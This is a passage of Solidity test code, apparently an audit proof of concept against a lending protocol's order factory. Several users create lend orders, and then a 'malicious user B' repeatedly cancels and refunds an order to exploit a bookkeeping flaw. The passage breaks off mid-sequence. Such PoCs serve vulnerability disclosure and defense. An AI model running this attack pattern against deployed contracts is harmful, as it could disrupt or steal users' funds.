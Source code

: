 ```solidity
        oraclesPrinciples,
        ratio,
        address(0x0),
        5e18
    );
    vm.stopPrank();

    // User C creates third lending order
    vm.startPrank(C);
    AEROContract.approve(address(DLOFactoryContract), 5e18);
    address lendOrderC = DLOFactoryContract.createLendOrder(
        false,
        oraclesActivated,
        false,
        ltvs,
        2000,
        8640000,
        86400,
        acceptedCollaterals,
        AERO,
        oraclesPrinciples,
        ratio,
        address(0x0),
        5e18
    );
    vm.stopPrank();

    // User D creates fourth lending order
    vm.startPrank(D);
    AEROContract.approve(address(DLOFactoryContract), 5e18);
    address lendOrderD = DLOFactoryContract.createLendOrder(
        false,
        oraclesActivated,
        false,
        ltvs,
        2000,
        8640000,
        86400,
        acceptedCollaterals,
        AERO,
        oraclesPrinciples,
        ratio,
        address(0x0),
        5e18
    );
    vm.stopPrank();

    // Malicious user B performs attack sequence
    vm.startPrank(B);
    // First cancel
    DLOImplementation(lendOrderB).cancelOffer();

    // First reactivation
    AEROContract.approve(lendOrderB, 1e18);
    DLOImplementation(lendOrderB).addFunds(1e18);

    // Second cancel
    DLOImplementation(lendOrderB).cancelOffer();

    // Second reactivation
    AEROContract.approve(lendOrderB, 1e18);
    DLOImplementation(lendOrderB).addFunds(1e18);

```